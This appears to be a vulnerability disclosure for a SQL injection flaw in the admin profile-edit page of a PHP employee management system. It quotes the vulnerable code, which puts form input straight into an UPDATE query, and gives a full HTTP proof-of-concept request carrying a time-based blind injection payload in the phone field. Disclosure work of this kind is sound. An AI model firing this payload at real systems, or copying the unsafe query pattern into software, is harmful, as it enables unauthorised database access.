 ### Vulnerability file address

`Admin/edit_profile.php` from line 12,The `$phone` parameter is controllable and the `$phone` is not protected from sql injection, line 14 `$sql = " update users set fullname='$fullname',phone='$phone' where username='$username'";` ,line 15 `mysqli_query($conn, $sql)`Line 15 performs a SQL query, causing SQL injection

```php
<?php
include('../inc/topbar.php');
if(empty($_SESSION['admin-username']))
    {
      header("Location: login.php");
    }

if(isset($_POST['btnupdate']))
{

$fullname=$_POST['txtfullname'];
$phone=$_POST['txtphone'];

$sql = " update users set fullname='$fullname',phone='$phone' where username='$username'";
if (mysqli_query($conn, $sql)) {

header( "refresh:2;url= edit_profile.php" );
$_SESSION['success'] ='User Edited Successfully';
}else{
$_SESSION['error'] ='Problem Saving changes';
}
```

### POC

```http
POST /CMS/php/employee_akpoly/Admin/edit_profile.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
Origin: http://10.0.0.20:82
Connection: close
Referer: http://10.0.0.20:82/CMS/php/employee_akpoly/Admin/edit_profile.php
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1

txtfullname=123&txtphone=123' AND (SELECT 9637 FROM (SELECT(SLEEP(5)))RKIJ)-- mEjS&old_image=uploadImage/1.php&btnupdate=
```

### Attack results pictures

![image-20250128161700419](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501281617460.png)
